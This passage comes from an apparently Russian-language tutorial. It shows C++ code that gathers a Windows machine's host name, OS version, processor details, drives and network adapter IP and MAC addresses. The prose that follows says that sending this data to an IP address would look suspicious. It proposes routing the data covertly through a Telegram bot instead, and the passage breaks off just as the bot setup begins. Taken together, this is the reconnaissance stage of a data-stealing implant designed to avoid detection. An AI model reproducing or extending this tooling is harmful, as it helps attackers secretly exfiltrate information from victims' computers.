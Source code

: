 ```cpp
IP_ADAPTER_INFO adapterInfo[16];  // Assuming there are no more than 16 adapters
DWORD adapterInfoSize = sizeof(adapterInfo);
if (GetAdaptersInfo(adapterInfo, &adapterInfoSize) != ERROR_SUCCESS) {
printf("GetAdaptersInfo failed. error: %d has occurred.\n", GetLastError());
return false;
}

snprintf(systemInfo, sizeof(systemInfo),
  "Host Name: %s\n"  // Use %s for CHAR
  "OS Version: %d.%d.%d\n"
  "Processor Architecture: %d\n"
  "Number of Processors: %d\n"
  "Logical Drives: %X\n",
  hostName,
  osVersion.dwMajorVersion, osVersion.dwMinorVersion, 
  osVersion.dwBuildNumber,
  sysInfo.wProcessorArchitecture,
  sysInfo.dwNumberOfProcessors,
  drives);

// Add IP address information
for (PIP_ADAPTER_INFO adapter = adapterInfo; adapter != NULL; adapter = adapter->Next) {
snprintf(systemInfo + strlen(systemInfo), sizeof(systemInfo) - strlen(systemInfo),
  "Adapter Name: %s\n"
  "IP Address: %s\n"
  "Subnet Mask: %s\n"
  "MAC Address: %02X-%02X-%02X-%02X-%02X-%02X\n",
  adapter->AdapterName,
  adapter->IpAddressList.IpAddress.String,
  adapter->IpAddressList.IpMask.String,
  adapter->Address[0], adapter->Address[1], adapter->Address[2],
  adapter->Address[3], adapter->Address[4], adapter->Address[5]);
}
```

Но если мы отправим такую информацию на какой-то IP-адрес, это покажется странным и подозрительным.    
Что если вместо этого создать Telegram-бота и отправлять информацию через него?    

Сначала создаём простого Telegram-бота:    
